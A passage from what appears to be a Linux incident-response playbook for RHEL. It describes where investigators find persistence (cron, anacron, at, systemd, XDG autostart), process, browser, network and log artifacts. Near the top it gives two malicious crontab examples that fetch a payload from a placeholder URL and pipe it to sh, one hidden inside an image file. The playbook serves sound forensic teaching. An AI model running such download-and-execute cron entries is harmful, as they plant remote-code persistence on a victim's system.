| | | ------- Month (1 - 12)
| | --------- Day of the month (1 - 31)
| ----------- Hour (0 - 23)
------------- Minute (0 - 59)
Each field can contain a single number, a comma-separated list of numbers, a range of numbers, or an asterisk (representing all possible numbers).
The second executable is crontab which is used to manage the crontab files. crontab -e can be used to edit the crontab file.
Examples
*/11 * * * * wget -O - -q http://<malicious_url>/pics/logo.jpg|sh
*/5 * * * * curl http://<malicious_url>/malicious.png -k|dd skip=2446 bs=1|sh
Managing crontab entries:
crontab -llists the current user's crontab entries.crontab -eopens the user's crontab file for editing.crontab -rremoves the user's crontab file.
User Crontab file locations
The crontab files for individual users are stored in the /var/spool/cron directory. Each user's crontab file has the same name as the username.
For example, the crontab file for the cbeard user would be at /var/spool/cron/cbeard.
System-wide cron jobs are also stored in the /etc/crontab file. The /etc/cron.d/ directory also stores system-wide cron files, where each file represents a separate cron job.
Scheduling with anacron
anacron is similar to cron in that it is also used for running scheduled tasks2.
The primary difference between anacron and cron is how they handle missed or skipped jobs. In cron, if a system is powered off or inactive at the scheduled time of a task, the task will not be executed. anacron is designed to address this limitation by allowing the execution of missed tasks when the system becomes active again.
System-wide tasks are defined in the main configuration file (/etc/anacrontab), while user-specific tasks are defined in separate per-user configuration files located in /var/spool/anacron/
System Crontab file locations
System packages schedule jobs by placing scripts in the /etc/cron.d folder.
/etc/cron.hourly, /etc/cron.daily, /etc/cron.weekly, /etc/cron.monthly: These directories contain scripts that run every hour, day, week, or month, respectively.
Jobs can be scheduled by placing script files in these folder locations. The cron daemon will run the scripts per the schedule.
Task scheduling using the 'at' command
The at command in can be used to schedule one-time tasks or commands to run at a specific time in the future. It is particularly useful for scheduling jobs that need to run only once, without any recurring pattern.
Note that at command job history cannot be recovered as the entry is purged from the job queue after the task execution.
The queue can be inspected as follows
cat /var/spool/at/<job_id>
cat /var/spool/at/spool/<job_id>
https://linuxconfig.org/how-to-run-commands-periodically-with-anacron-on-linux 1: < https://sandflysecurity.com/blog/linux-malware-persistence-with-cron/ >
Autostart
Autostart mechanisms allow specific applications, services, or scripts to automatically start when the computer boots up or a user logs on. This is a popular vector for malicious actors trying to establish persistence on a compromised system.
Systemd Services
systemd is a system and service manager for Linux that is responsible for starting, stopping, and managing system services.
In order to have services autostart, the unit configuration file needs to be placed in the appropriate directory123.
/usr/lib/systemd/system/: Systemd unit files distributed with installed RPM packages./run/systemd/system/: Systemd unit files created at run time. This directory takes precedence over the directory with installed service unit files./etc/systemd/system/: Systemd unit files created by systemctl enable as well as unit files added for extending a service. This directory takes precedence over the directory with runtime unit files.
Previous versions of Redhat used /etc/rc.d/init.d/. These are written in BASH scripts. This folder location should be reviewed and any scripts should be thoroughly examined.
| Run Lvl | Target Units | Description3 |
|---|---|---|
| 0 | runlevel0.target, poweroff.target | Shut down and power off |
| 1 | runlevel1.target, rescue.target | Set up a rescue shell |
| 2,3,4 | runlevel[234].target, multi-user.target | Set up a non-gfx multi-user shell |
| 5 | runlevel5.target, graphical.target | Set up a gfx multi-user shell |
| 6 | runlevel6.target, reboot.target | Shut down and reboot the system |
Note that all the services defined are not enabled.
In order to get a list of all enabled services, the symlinks from the various run levels need to be examined.
[tlasso@rhel-richmondfc system]$ ls -l multi-user.target.wants
total 0
lrwxrwxrwx. 1 root root 35 Jun 14 02:28 atd.service -> /usr/lib/systemd/system/atd.service
lrwxrwxrwx. 1 root root 38 Jun 14 02:26 auditd.service -> /usr/lib/systemd/system/auditd.service
lrwxrwxrwx. 1 root root 44 Jun 14 02:26 avahi-daemon.service -> /usr/lib/systemd/system/avahi-daemon.service
lrwxrwxrwx. 1 root root 39 Jun 14 02:28 chronyd.service -> /usr/lib/systemd/system/chronyd.service
lrwxrwxrwx. 1 root root 37 Jun 14 02:26 crond.service -> /usr/lib/systemd/system/crond.service
lrwxrwxrwx. 1 root root 33 Jun 14 02:27 cups.path -> /usr/lib/systemd/system/cups.path
lrwxrwxrwx. 1 root root 36 Jun 14 02:27 cups.service -> /usr/lib/systemd/system/cups.service
lrwxrwxrwx. 1 root root 41 Jun 14 02:28 firewalld.service -> /usr/lib/systemd/system/firewalld.service
As seen below, there are several .wants defined in RHEL.
[tlasso@rhel-richmondfc system]$ ls | grep wants
basic.target.wants
bluetooth.target.wants
default.target.wants
dev-virtio\x2dports-org.qemu.guest_agent.0.device.wants
getty.target.wants
graphical.target.wants
local-fs.target.wants
multi-user.target.wants
network-online.target.wants
printer.target.wants
remote-fs.target.wants
sockets.target.wants
sysinit.target.wants
timers.target.wants
XDG autostart
XDG autostart defines a specification to start applications automatically when a desktop environment is started. It does this by placing .desktop files in specific directories. The directories that are used for XDG autostart are4:
~/.config/autostart (user-specific)
/etc/xdg/autostart (system-wide)
The most important key in a .desktop file for XDG autostart is the Exec key, which specifies the command that should be run when the application is started.
For example, the vmware-user.desktop file contents are as follows. The Exec defined here is /usr/bin/vmware-user-suid-wrapper will be launched automatically.
[tlasso@rhel-richmondfc etc]$ cat /etc/xdg/autostart/vmware-user.desktop
[Desktop Entry]
Type=Application
Exec=/usr/bin/vmware-user-suid-wrapper
Name=VMware User Agent
# KDE bug 190522: KDE does not autostart items with NoDisplay=true...
# NoDisplay=true
X-KDE-autostart-phase=1
Scripts
.bashrc file is a script that's executed whenever a new terminal session is opened in interactive mode. It's often used for setting environment variables, defining functions, or customizing the command prompt.
.bash_profile and .bash_loginare similar to .bashrc, but are executed when a login shell session is started, which typically happens when a user logs on at the console, through ssh, or with the su - username command.
These scripts should also be reviewed for malicious actions.
5 https://superuser.com/questions/594819/getting-list-of-startup-application-in-linux
6 https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/system_administrators_guide/chap-managing_services_with_systemd
Forensic Artifacts
Scheduled Jobs
Collect the crontab files
Each line of these files will have to be analyzed, and the executable file or script will need to be extracted for further analysis.
# system wide
/etc/crontab
/etc/anacrontab
/var/spool/at/<Jobs>
# user specific
/var/spool/cron/<user_id>
/var/spool/anacron/<user_id>
Collect script files from the following folders
/etc/cron.d
/etc/cron.hourly
/etc/cron.daily
/etc/cron.weekly
/etc/cron.monthly
Process Execution
Shell History
Shell history, such as .bash_history, can record the list of commands that users ran. However, they are also the least reliable. For example, somebody can easily manipulate the shell history, modify it or clear it completely. Deleting the .bash_history file will also delete all records with it.
The history is also only written when the shell is closed. If a user has multiple simultaneous shell sessions, then commands can get overridden, and the ordering of the history will be lost. Shell history also does not track when a command was executed or its output. This lack of context further limits its suitability for forensic analysis.
Live Process
Live process information can be obtained from the /proc directory 1. Each currently running process has a subdirectory named with its PID under/proc. This directory contains a great deal of information about the process, including its current status, the command line that started the process, working directory etc.
For forensic examination, the following attributes are valuable.
Process Identifier (PID): The unique ID assigned to each process during its creation. It is crucial for process management and control.
Parent Process Identifier (PPID): The unique ID of the process that created the current process. This can be useful in understanding process hierarchies and dependencies.
Path: The file path to the executable file running as this process. This indicates the process's origin.
Arguments: The command-line arguments that were passed to the process at its launch. These can affect the process's behavior in significant ways.
Execution Start Time: The start time of a process.
Loaded Objects: Information about shared libraries and other objects that the process has loaded into memory. This could be key in diagnosing issues related to libraries.
User: The user account that owns and controls the process. This is important for considerations of permissions and security.
/proc/[pid]/stat / /proc/[pid]/statusfile
The /proc/[pid]/stat file 1 in the Linux filesystem provides a wealth of information about a specific process, identified by its process ID (PID). The file contains a single line of text, with different fields separated by spaces.
The /proc/[pid]/status also provides much of the same information in a human readable form.
The fields that are of interest for analysis here are Name, Pid, PPid. The PPid can be used to lookup the parent process and check to see if there are any abnormal process launch or hierarchy issues.
[tlasso@rhel-richmondfc 71520]$ cat /proc/71520/status
Name: nc
Umask: 0022
State: S (sleeping)
Tgid: 71520
Ngid: 0
Pid: 71520
PPid: 40918
...
Command line arguments used
The command line used to launch the process can be looked up from the cmdline file.
cat cmdline
/proc/[pid]/exe
The executable as well as the launch time can be found by listing the exe.
[tlasso@rhel-richmondfc 71520]$ ls -l exe
lrwxrwxrwx. 1 tlasso tlasso 0 Jul 10 01:38 exe -> /usr/bin/ncat
Loaded shared lib
Shared libs loaded by the process can be displayed using the ldd command.
[tlasso@rhel-richmondfc 71520]$ ldd /usr/bin/ncat
linux-vdso.so.1 (0x00007ffc8b373000)
libssl.so.3 => /lib64/libssl.so.3 (0x00007fad435f5000)
libcrypto.so.3 => /lib64/libcrypto.so.3 (0x00007fad43000000)
libpcap.so.1 => /lib64/libpcap.so.1 (0x00007fad435a7000)
libm.so.6 => /lib64/libm.so.6 (0x00007fad434cc000)
libc.so.6 => /lib64/libc.so.6 (0x00007fad42c00000)
libz.so.1 => /lib64/libz.so.1 (0x00007fad434b2000)
libibverbs.so.1 => /lib64/libibverbs.so.1 (0x00007fad4348e000)
/lib64/ld-linux-x86-64.so.2 (0x00007fad4370f000)
libnl-route-3.so.200 => /lib64/libnl-route-3.so.200 (0x00007fad42f6f000)
libnl-3.so.200 => /lib64/libnl-3.so.200 (0x00007fad4346a000)
libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007fad4344f000)
Web Artifacts
Web artifacts are digital traces that are left behind by web browsers and other applications. These artifacts can include the user's browsing history, cookies, cache, and other data. This data can help investigators reconstruct the sequence of events leading up to a cyber incident, identify potential attack vectors, or uncover crucial evidence. For instance, forensic analysis of these artifacts can reveal the presence of malicious sites in a user's browsing history, indicating a possible malware infection vector. Similarly, an unexpected cookie could signify an attacker's attempts to maintain persistence or steal data.
Browser History
$users.homedir/.mozilla/firefox/*/places.sqlite
$users.homedir/.mozilla/firefox/*/places.sqlite-wal
Browser Cache
$users.homedir/.cache/mozilla/firefox/*.default/Cache/*
$users.homedir/.cache/mozilla/firefox/*.default/cache2/*
$users.homedir/.cache/mozilla/firefox/*.default/cache2/doomed/*
$users.homedir/.cache/mozilla/firefox/*.default/cache2/entries/*
$users.homedir/.cache/mozilla/firefox/*.default-*/Cache/*
$users.homedir/.cache/mozilla/firefox/*.default-*/cache2/*
$users.homedir/.cache/mozilla/firefox/*.default-*/cache2/doomed/*
$users.homedir/.cache/mozilla/firefox/*.default-*/cache2/entries/*
Downloads
$users.homedir/.mozilla/firefox/*/downloads.sqlite
$users.homedir/.mozilla/firefox/*/downloads.sqlite-wal
Cookies
$users.homedir/.mozilla/firefox/*/cookies.sqlite
$users.homedir/.mozilla/firefox/*/cookies.sqlite-shm
$users.homedir/.mozilla/firefox/*/cookies.sqlite-wal
Addons
$users.homedir/.mozilla/firefox/*/addons.json
$users.homedir/.mozilla/firefox/*/extensions.json
$users.homedir/.mozilla/firefox/*/webapps/webapps.json
Open Ports / Active Connections
Active connections and open ports are a critical part of an investigation. However, one of the challenges in this process is that historical information about port activity is not recorded on the host, making it difficult to trace back and identify patterns of an intrusion. Despite this limitation, when a cyber incident occurs, investigating open ports helps to determine the vector of the attack, identify what services or data might have been compromised, and evaluate the extent of the intrusion.
Listening Ports
There are a few ways to list process along with open port in Linux. Here are the most common methods:
netstat command
The netstat command can be used to display a variety of network information, including open ports. To list process along with open port using netstat, use the following:
netstat -tulpn
[tlasso@rhel-richmondfc 37822]$ netstat -tulpn
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:631 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:9080 0.0.0.0:* LISTEN 71520/nc
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp6 0 0 ::1:631 :::* LISTEN -
tcp6 0 0 :::9080 :::* LISTEN 71520/nc
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 0.0.0.0:43449 0.0.0.0:* -
udp 0 0 0.0.0.0:5353 0.0.0.0:* -
udp 0 0 0.0.0.0:49428 0.0.0.0:* 40401/firefox
udp 0 0 127.0.0.1:323 0.0.0.0:* -
udp6 0 0 :::5353 :::* -
udp6 0 0 :::49008 :::* -
udp6 0 0 ::1:323 :::* -
ss command
The ss command1 is a newer alternative to netstat and can be used to dump socket statistics. To list process along with open port using ss, use the following :
ss -tulpn
[tlasso@rhel-richmondfc 37822]$ ss -tulpn
Netid State Recv-Q Send-Q Local Address:Port Peer Address:Port Process
udp UNCONN 0 0 0.0.0.0:43449 0.0.0.0:*
udp UNCONN 0 0 0.0.0.0:5353 0.0.0.0:*
udp UNCONN 0 0 0.0.0.0:49428 0.0.0.0:* users:(("firefox",pid=40401,fd=53))
udp UNCONN 0 0 127.0.0.1:323 0.0.0.0:*
udp UNCONN 0 0 [::]:5353 [::]:*
udp UNCONN 0 0 [::]:49008 [::]:*
udp UNCONN 0 0 [::1]:323 [::]:*
tcp LISTEN 0 128 127.0.0.1:631 0.0.0.0:*
tcp LISTEN 0 10 0.0.0.0:9080 0.0.0.0:* users:(("nc",pid=71520,fd=4))
tcp LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
tcp LISTEN 0 128 [::1]:631 [::]:*
tcp LISTEN 0 10 [::]:9080 [::]:* users:(("nc",pid=71520,fd=3))
tcp LISTEN 0 128 [::]:22 [::]:*
Active Connections
lsof - "List Open Files"2 is an excellent tool when working with a live system. It provides a detailed view of the system and displays information about files that are opened by processes, including network connections. 3
lsof -i -n -P
[tlasso@rhel-richmondfc 37822]$ lsof -i -n -P
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
firefox 40401 tlasso 55u IPv4 755700 0t0 TCP 172.23.49.52:35546->34.117.65.55:443 (ESTABLISHED)
firefox 40401 tlasso 60u IPv4 779282 0t0 TCP 172.23.49.52:45388->142.250.205.228:443 (ESTABLISHED)
firefox 40401 tlasso 61u IPv4 775820 0t0 TCP 172.23.49.52:34942->34.149.100.209:443 (ESTABLISHED)
firefox 40401 tlasso 62u IPv4 775821 0t0 TCP 172.23.49.52:58550->34.120.115.102:443 (ESTABLISHED)
firefox 40401 tlasso 63u IPv4 778293 0t0 TCP 172.23.49.52:53024->34.120.237.76:443 (ESTABLISHED)
firefox 40401 tlasso 77u IPv4 777822 0t0 TCP 172.23.49.52:48046->142.250.77.131:80 (ESTABLISHED)
firefox 40401 tlasso 78u IPv4 780293 0t0 TCP 172.23.49.52:50414->49.44.116.245:80 (ESTABLISHED)
firefox 40401 tlasso 80u IPv4 777823 0t0 TCP 172.23.49.52:48054->142.250.77.131:80 (ESTABLISHED)
firefox 40401 tlasso 81u IPv4 771854 0t0 TCP 172.23.49.52:45404->142.250.205.228:443 (ESTABLISHED)
firefox 40401 tlasso 101u IPv4 777824 0t0 TCP 172.23.49.52:48068->142.250.77.131:80 (ESTABLISHED)
firefox 40401 tlasso 111u IPv4 772047 0t0 TCP 172.23.49.52:48566->142.250.183.238:443 (ESTABLISHED)
firefox 40401 tlasso 119u IPv4 772053 0t0 TCP 172.23.49.52:52668->172.217.163.162:443 (ESTABLISHED)
firefox 40401 tlasso 123u IPv4 775005 0t0 TCP 172.23.49.52:55100->142.250.195.131:443 (ESTABLISHED)
firefox 40401 tlasso 132u IPv4 772049 0t0 TCP 172.23.49.52:34382->172.217.167.130:443 (ESTABLISHED)
firefox 40401 tlasso 149u IPv4 775871 0t0 TCP 172.23.49.52:40670->142.250.183.226:443 (ESTABLISHED)
nc 71520 tlasso 3u IPv6 752595 0t0 TCP *:9080 (LISTEN)
nc 71520 tlasso 4u IPv4 752596 0t0 TCP *:9080 (LISTEN)
DNS Cache
DNS records can provide crucial insights into network communications, identify malicious activities and uncover connections between compromised systems and C2 servers.
Cache records can be found in the
Configuration files
DNS-related configuration files may contain valuable information.
/etc/resolv.conf: Specifies the DNS servers used by the system.
/etc/hosts: Contains local hostname-to-IP mappings.
DNS caching in RHEL
RHEL does not cache DNS queries by default1. RHEL also does not recommend using any resolvers2. This implies that DNS caching artifacts may not be available for analysis.
DNS resolver
Resolver configuration is stored in the /etc/resolv.conf file. This file should be reviewed as part of the investigation to check for any malicious entries.
cat /etc/resolv.conf
Log Analysis
Log files are a valuable source of information for digital forensic investigators. They can provide insights into a wide range of events, including user activity, system changes, and security incidents. In RHEL, log files are stored in the /var/log directory.
The following log files are discussed in depth in this playbook.
-
/var/log/audit/audit.log: This log contains records of all security-relevant events, such as file access, process creation, and network connections. -
/var/log/messages: Themessagesfile is a system log file that contains all global system messages, including the messages that are logged during system startup. The configuration for this log is done in the/etc/rsyslog.conffile. -
/var/log/secure: Thesecurefile is a security log file that contains all security-related messages, including authentication failures. It also tracks sudo logins, SSH logins and other errors logged by system security services daemon. The configuration for this log is done in the/etc/rsyslog.conffile. -
/var/log/btmp: Thebtmpfile is a system log file in Linux that keeps a record of failed logon attempts. -
/var/log/wtmp: Thewtmpfile keeps track of the successful logons including logoff. -
/var/log/cron: Schedule task execution history log. -
/var/log/dnf*, /var/log/anaconda: These logs offer a comprehensive timeline of application changes on a system from installation to the present.
Log file analysis for forensics comes with its own set of challenges and pitfalls.
Log files can be manipulated by attackers to cover their tracks. For example, an attacker might delete or modify log files to remove evidence of their activity. It is important for forensic investigators to be aware of these potential pitfalls and to take steps to verify the integrity of log files.
Another important consideration for log file analysis is log rotation. Log rotation is the process of automatically moving old log files to a different location or deleting them altogether. This is done to prevent log files from becoming too large and to ensure that only the most recent log files are kept. However, log rotation can also make it more difficult for forensic investigators to access historical log data.
Log configuration
RHEL9 defaults to using rsyslog for log management. rsyslog configuration is maintained in the /etc/rsyslog.conf file. Please review the rsyslog documentation to learn its capabilities1 2 3. Note that the above log files may be altered by changing the log settings in the conf file.
Ensure that the configurations has not been tampered with by comparing it with corporate baselines or policies.
https://www.rsyslog.com/doc/v8-stable/configuration/index.html 2: https://www.redhat.com/sysadmin/log-aggregation-rsyslog 3: https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/9/html/security_hardening/assembly_configuring-a-remote-logging-solution_security-hardening#the-rsyslog-logging-service_assembly_configuring-a-remote-logging-solution
Audit Log
The audit.log file is the default log file used by the Linux Audit system, where it records system events based on the rules defined by the system administrator. This file typically includes information such as timestamps, event types, success or failure status, and other relevant details for each event. It is usually located in the /var/log/audit/ directory. The audit.log file serves as a comprehensive audit trail, and it can be used for forensic investigations to understand actions that were performed on a system.1
Here is an example log record.
type=SYSCALL msg=audit(1626369130.992:9876): arch=c000003e syscall=2 success=yes exit=3 a0=7ffeefbff4f0 a1=941 a2=1b6 a3=7ffeefbff4c0 items=2 ppid=2636 pid=2637 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000 fsgid=1000 tty=pts0 ses=2 comm="touch" exe="/usr/bin/touch" key="file-create"
-
type=SYSCALL: This is a system call event. The Linux kernel has provided a mechanism for user space applications to request services from the kernel, which is known as a system call. -
msg=audit(1626369130.992:9876): This is a unique identifier for the audit event. The timestamp is followed by the audit event ID. -
arch=c000003e: This is the architecture from which the syscall originates. c000003e corresponds to x86_64. -
syscall=2: This is the system call number. 2 corresponds to the open syscall on an x86_64 system. -
success=yes: Indicates whether the system call was successful. -
exit=3: The exit value of the system call. -
a0=7ffeefbff4f0 a1=941 a2=1b6 a3=7ffeefbff4c0: These are the hexadecimal representations of the system call arguments. -
items=2: The number of path records that are associated with this event. -
ppid=2636 pid=2637: The process ID (pid) of the process making the system call, and the parent process ID (ppid). -
auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000 fsgid=1000: Various user and group identifiers. auid is the Audit User ID, uid and gid are the User ID and Group ID, euid and egid are the effective User ID and Group ID, suid and sgid are the Saved User ID and Group ID, fsuid and fsgid are the filesystem User ID and Group ID. -
tty=pts0: The controlling terminal of the process. -
ses=2: The session ID. This is a unique identifier that Linux uses to group processes. When a user logs into a system, a new session is started, and a unique session ID is assigned to that session. All the processes that start as a result of this login, such as from executing commands or starting applications, are associated with this session ID. -
comm="touch": The command that was issued, in this case touch. -
exe="/usr/bin/touch": The executable that was run to issue the command. -
key="file-create": The key is an optional, searchable string that can be added to the audit log record for easier searching.
System log
The messages log is located in the /var/log/messages contains the system log. This includes startup messages, kernel messages and application messages. This is a valuable tool in forensics analysis as it can provide information about the sequence of events.
The file format is text and can be viewed with a cat command.
Startup messages: These messages are generated when the system starts up. They can provide information about the hardware and software that is loaded, as well as any errors that occur during startup.
Kernel messages: These messages are generated by the Linux kernel. They can provide information about kernel events, such as hardware interrupts, process creation, and file access.
Application messages: These messages are generated by applications. They can provide information about application events, such as errors, warnings, and status messages.
Security log
The /var/log/secure file logs all security-related events dealing with authorization or authentication. For example, whenever someone logs into the system, switches users with su, or makes sudo command use, a log entry is generated and stored in /var/log/secure.
Other events include authentication attempts, SSH logins, SELinux denials, and other security-related events.
Here are examples of various activities that you might find in secure that is relevant for a forensic investigation.
User Creation: When a new user is added to the system, it's logged. Theuseraddcommand logs information about the new user, including the username, UID, GID, home directory, and shell.
Jul 7 00:55:34 rhel-richmondfc useradd[48265]: new group: name=keeley, GID=1002
Jul 7 00:55:34 rhel-richmondfc useradd[48265]: new user: name=keeley, UID=1001, GID=1002, home=/home/keeley, shell=/bin/bash, from=/dev/pts/0
Password Change: When a user's password is changed using thepasswdcommand.
Jul 7 00:57:44 rhel-richmondfc passwd[48311]: pam_unix(passwd:chauthtok): password changed for keeley
User Deletion: When a user is deleted from the system, theuserdelcommand logs the event.
Jul 7 00:58:09 rhel-richmondfc userdel[48328]: delete user 'keeley'
Jul 7 00:58:09 rhel-richmondfc userdel[48328]: removed group 'keeley' owned by 'keeley'
Jul 7 00:58:09 rhel-richmondfc userdel[48328]: removed shadow group 'keeley' owned by 'keeley'
sudocommand usage: Any command executed usingsudowill be logged, including the user who ran the command and the command itself.
Jul 7 00:57:44 rhel-richmondfc sudo[48309]: pam_unix(sudo:session): session closed for user root
Jul 7 00:58:09 rhel-richmondfc sudo[48326]: tlasso : TTY=pts/0 ; PWD=/var/log ; USER=root ; COMMAND=/sbin/userdel keeley
Jul 7 00:58:09 rhel-richmondfc sudo[48326]: pam_unix(sudo:session): session opened for user root(uid=0) by (uid=1000)
Jul 7 00:58:09 rhel-richmondfc userdel[48328]: delete user 'keeley'
Jul 7 00:58:09 rhel-richmondfc userdel[48328]: removed group 'keeley' owned by 'keeley'
Jul 7 00:58:09 rhel-richmondfc userdel[48328]: removed shadow group 'keeley' owned by 'keeley'
Jul 7 00:58:09 rhel-richmondfc sudo[48326]: pam_unix(sudo:session): session closed for user root
In the above example a sudo user session is established and the delete command is issued by the user.
A summay of the various daemons writing to the security log file can be created using the following.
sudo cat secure* | awk '{print $5}' | sed 's/\[[^]]*\]//' | sort | uniq
[tlasso@rhel-richmondfc log]$ sudo cat secure* | awk '{print $5}' | sed 's/\[[^]]*\]//' | sort | uniq
atd:
gdm-launch-environment:
gdm-password:
passwd:
pkexec:
polkitd:
sshd:
sssctl:
su:
sudo:
systemd:
unix_chkpwd:
useradd:
userdel:
usermod:
Logon Attempts
Successful Logons
The wtmp file is a binary file that contains a history of all logins and logouts *nix system. It is located in the /var/log directory 12.
The wtmp file is updated by the login program whenever a user logs in or out of the system.
The wtmp file contains records that are stored in a sequential manner, with each record having a fixed size of 384 bytes. The structure of these records is defined in the utmp.h header file in the format of the struct utmp structure.
Here's a general idea of how the struct utmp structure looks like 3:
ut_type: The type of login event. It could indicate a user process, system boot, run-level, init process, login process, or a dead process, among others.ut_pid: The process ID associated with the session. This could be the ID of the login process.ut_line: The device name, including the tty or pseudo-tty associated with the user login, typically recorded in the /dev/ directory.ut_id: The terminal identifier, often a representation of the TTY associated with the login.ut_user: The username associated with the login event.ut_host: If a user is logging in from a remote host, this field records the hostname of that remote machine. If the system is changing run levels, this field records the new kernel version.ut_exit: This structure records the exit status of processes.ut_session: This represents the session ID and can be used to correlate records that belong to the same session.ut_tv: This structure records the time the entry was made in seconds (tv_sec) and microseconds (tv_usec).ut_addr_v6: This is an array representing the IP address of the remote host. For IPv4 addresses, only ut_addr_v6[0] is used.__glibc_reserved: This field is reserved for future use.
utmpdump utility
The utmpdump utility is a command-line tool that can be used to dump the contents of wtmp in a human-readable format.
sudo utmpdump wtmp
[tlasso@rhel-richmondfc log]$ sudo utmpdump wtmp
Utmp dump of wtmp
[2] [00000] [~~ ] [reboot ] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-06-14T06:33:26,391250+00:00]
[1] [00053] [~~ ] [runlevel] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-06-14T06:33:40,819556+00:00]
[7] [05403] [ ] [tlasso ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-06-14T06:35:06,827950+00:00]
[7] [05403] [ ] [tlasso ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T06:35:06,842674+00:00]
...
[7] [02252] [ ] [tlasso ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T07:08:32,732126+00:00]
[8] [02252] [ ] [ ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T07:10:32,561013+00:00]
[7] [03822] [ ] [corp\tlasso] [seat0 ] [login screen ] [0.0.0.0 ] [2023-06-14T07:11:59,828610+00:00]
[7] [03822] [ ] [corp\tlasso] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T07:11:59,844923+00:00]
[8] [03822] [ ] [ ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T07:14:12,532661+00:00]
[7] [05218] [ ] [tlasso ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-06-14T07:16:25,340760+00:00]
[7] [05218] [ ] [tlasso ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T07:16:25,355669+00:00]
[7] [07149] [ ] [corp\tlasso] [seat0 ] [login screen ] [0.0.0.0 ] [2023-06-14T07:20:19,453351+00:00]
[7] [07149] [ ] [corp\tlasso] [tty3 ] [tty3 ] [0.0.0.0 ] [2023-06-14T07:20:19,468732+00:00]
[8] [07149] [ ] [ ] [tty3 ] [tty3 ] [0.0.0.0 ] [2023-06-14T07:20:49,888562+00:00]
[7] [08634] [ ] [corp\nate] [seat0 ] [login screen ] [0.0.0.0 ] [2023-06-14T07:21:01,919825+00:00]
[7] [08634] [ ] [corp\nate] [tty3 ] [tty3 ] [0.0.0.0 ] [2023-06-14T07:21:01,934843+00:00]
[8] [05218] [ ] [ ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-06-14T07:23:00,060946+00:00]
[1] [00000] [~~ ] [shutdown] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-06-14T07:23:11,496730+00:00]
[2] [00000] [~~ ] [reboot ] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-06-14T07:23:19,033360+00:00]
[1] [00053] [~~ ] [runlevel] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-06-14T07:23:32,171343+00:00]
...
[7] [02262] [ ] [corp\cbeard] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T14:52:43,715647+00:00]
[7] [02262] [ ] [corp\cbeard] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-07-02T14:52:43,730818+00:00]
[7] [05197] [ ] [tlasso ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T15:39:28,794506+00:00]
[7] [05197] [ ] [tlasso ] [tty3 ] [tty3 ] [0.0.0.0 ] [2023-07-02T15:39:28,810540+00:00]
[7] [07492] [ ] [cbeard@corp.tuxtriage.net] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T15:59:58,261848+00:00]
[7] [07492] [ ] [cbeard@corp.tuxtriage.net] [tty4 ] [tty4 ] [0.0.0.0 ] [2023-07-02T15:59:58,270203+00:00]
[1] [00000] [~~ ] [shutdown] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-07-02T16:01:53,787611+00:00]
[2] [00000] [~~ ] [reboot ] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-07-02T16:02:11,368171+00:00]
[1] [00053] [~~ ] [runlevel] [~ ] [5.14.0-284.11.1.el9_2.x86_64] [0.0.0.0 ] [2023-07-02T16:02:14,822723+00:00]
[7] [02261] [ ] [corp\cbeard] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T16:02:37,388535+00:00]
[7] [02261] [ ] [corp\cbeard] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-07-02T16:02:37,404458+00:00]
[8] [02261] [ ] [ ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-07-02T16:04:27,464002+00:00]
[7] [04014] [ ] [tlasso ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-02T16:04:40,193039+00:00]
[7] [04014] [ ] [tlasso ] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-07-02T16:04:40,208590+00:00]
[7] [06612] [ts/1] [nate@corp.tuxtriage.net] [pts/1 ] [172.26.0.1 ] [172.26.0.1 ] [2023-07-02T18:36:35,071518+00:00]
...
[7] [37619] [ ] [corp\cbeard] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-05T17:51:14,138272+00:00]
[7] [37619] [ ] [corp\cbeard] [tty2 ] [tty2 ] [0.0.0.0 ] [2023-07-05T17:51:14,152081+00:00]
[7] [39323] [ ] [tlasso ] [seat0 ] [login screen ] [0.0.0.0 ] [2023-07-05T17:52:15,720396+00:00]
[7] [39323] [ ] [tlasso ] [tty3 ] [tty3 ] [0.0.0.0 ] [2023-07-05T17:52:15,736486+00:00]
[7] [40243] [ts/1] [nate@corp.tuxtriage.net] [pts/1 ] [172.23.48.1 ] [172.23.48.1 ] [2023-07-05T17:54:25,140715+00:00]
last command utility
The last command is a utility can also be used to view this information. The list is produced in reverse chronological order (most recent events first), hence the name "last".
sudo last -f btmp
[tlasso@rhel-richmondfc log]$ last -f wtmp
